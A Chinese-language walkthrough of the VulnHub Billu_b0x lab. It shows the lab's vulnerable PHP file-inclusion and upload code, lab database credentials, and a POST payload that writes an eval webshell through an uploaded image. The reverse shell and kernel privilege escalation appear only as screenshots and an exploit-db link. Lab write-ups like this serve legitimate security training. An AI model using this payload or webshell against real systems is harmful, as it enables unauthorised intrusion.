 ### 环境搭建
>[https://download.vulnhub.com/billu/Billu_b0x.zip](https://download.vulnhub.com/billu/Billu_b0x.zip)   
hash:ebcb435522917a67b54274900b37c6af

### 开搞
#### 首先nmap开路    
![image](https://raw.githubusercontent.com/trialv/vulnhub_test/master/Billu_b0x/png_1.png)    
访问```http://192.168.14.149/```    
![image](https://raw.githubusercontent.com/trialv/vulnhub_test/master/Billu_b0x/png_2.png)
>向世界上最帅老男人致敬

查看HTML源码并没什么*用，SQLmap无果后遍历目录       
![image](https://raw.githubusercontent.com/trialv/vulnhub_test/master/Billu_b0x/png_3.png)    
访问```http://192.168.14.149/test.php``` 报错缺少参数```file```    
![image](https://raw.githubusercontent.com/trialv/vulnhub_test/master/Billu_b0x/png_4.png)    
尝试POST提交```file=test.php```此处为任意文件下载，将目录遍历出的文件全部下载开始代码审计。     
![image](https://raw.githubusercontent.com/trialv/vulnhub_test/master/Billu_b0x/png_5.png)    

#### 审计

主页登录成功后跳转至```panel.php```查看panel.php源码第33行起，当```load```为非add与show时可构造任意文件包含攻击   
```
if(isset($_POST['continue']))
{
	$dir=getcwd();
	$choice=str_replace('./','',$_POST['load']);
	
	if($choice==='add')
	{
       		include($dir.'/'.$choice.'.php');
			die();
	}
	
        if($choice==='show')
	{
        
		include($dir.'/'.$choice.'.php');
		die();
	}
	else
	{
		include($dir.'/'.$_POST['load']);
	}
	
}
```

文件上传验证文件后缀与文件类型，经测试无法构造绕过。
```
$image=array('jpeg','jpg','gif','png');
	if(in_array($r,$image))
	{
		$finfo = @new finfo(FILEINFO_MIME); 
	$filetype = @$finfo->file($_FILES['image']['tmp_name']);
		if(preg_match('/image\/jpeg/',$filetype )  || preg_match('/image\/png/',$filetype ) || preg_match('/image\/gif/',$filetype ))
```
#### 利用
```c.php```中找到数据库账号密码```billu/b0x_billu```,登录phpmyadmin找到用户名口令    
![image](https://raw.githubusercontent.com/trialv/vulnhub_test/master/Billu_b0x/png_6.png)    
登录成功后上传图片马到```uploaded_images/```目录下构造payload如下
```
POST /panel.php
continue=&load=uploaded_images/trial.png&trial=file_put_contents('test.php','<?php @eval($_POST[test]);?>');
```    
菜刀连接```uploaded_images/test.php```查看版本    
![image](https://raw.githubusercontent.com/trialv/vulnhub_test/master/Billu_b0x/png_7.png)    
反弹shell     
![image](https://raw.githubusercontent.com/trialv/vulnhub_test/master/Billu_b0x/png_8.png)    
提权    
![image](https://raw.githubusercontent.com/trialv/vulnhub_test/master/Billu_b0x/png_9.png)    
[https://www.exploit-db.com/exploits/37292/](https://www.exploit-db.com/exploits/37292/)     
写入免密密匙  然后。。久就没有然后了
